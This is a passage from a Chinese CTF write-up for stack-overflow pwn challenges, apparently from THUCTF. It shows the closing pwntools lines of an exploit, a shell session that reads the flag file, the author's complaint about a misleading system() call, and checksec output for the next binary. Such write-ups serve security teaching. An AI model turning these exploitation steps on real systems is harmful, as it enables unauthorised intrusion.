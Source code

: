```Python
p.writeline(s)
p.interactive()
```

然后就简单了

```sh
$ cd /home
$ ls
ctf_puck
$ cd ctf_puck
$ ls
flag
run.sh
stackoverflow64_withleak
$ cat flag
THUCTF{HahA_you_got_it_And_90od_Job!}
```


---

我要吐槽这题的 `doit()` 函数：

```C
int doit()
{
  return system("/bin/cat 'ok'");
}
```

看这个函数，我还以为 `flag` 就在服务器上的 `ok` 里，调用这个函数就行了

结果服务器上根本没有这个文件。另外本题中 `stderr` 也没传回来，我这边什么都没收到，根本不知道发生了什么。如果这个函数真的没什么卵用，那写成

```C
int doit()
{
  return system("/bin/echo hello world");
}
```

之类的会好些，不会误导别人 TwT

## pwn2

解法和 pwn1 是一样的，先 `checksec`
```sh
$ checksec stackoverflow64_withnoleak
[*] '/tmp/stackoverflow64_withnoleak'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
和 pwn1 一样的
